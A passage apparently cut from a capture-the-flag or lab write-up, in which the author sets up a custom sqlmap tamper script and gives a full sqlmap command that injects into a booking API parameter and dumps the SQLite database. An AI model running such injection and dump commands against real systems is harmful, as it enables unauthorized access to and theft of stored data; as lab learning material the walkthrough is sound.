 Now, we need to create a tamper.py file with those contents and an `__init__.py` file too, once we do it, we can send the following `sqlmap` command:

```bash
sqlmap -u "http://IP/api/booking-info?booking_key=" -p "booking_key" --tamper=PATH TO TAMPER.PY/tamper.py --dbms=sqlite --technique=U --string="not found" --random-agent --level=5 --risk=3 --dump -batch
```


Make sure you got `base58` on pip before using the command:

```
pip install base58
```

We can see this:

![Pasted image 20250702164805.png](../../IMAGES/Pasted%20image%2020250702164805.png)

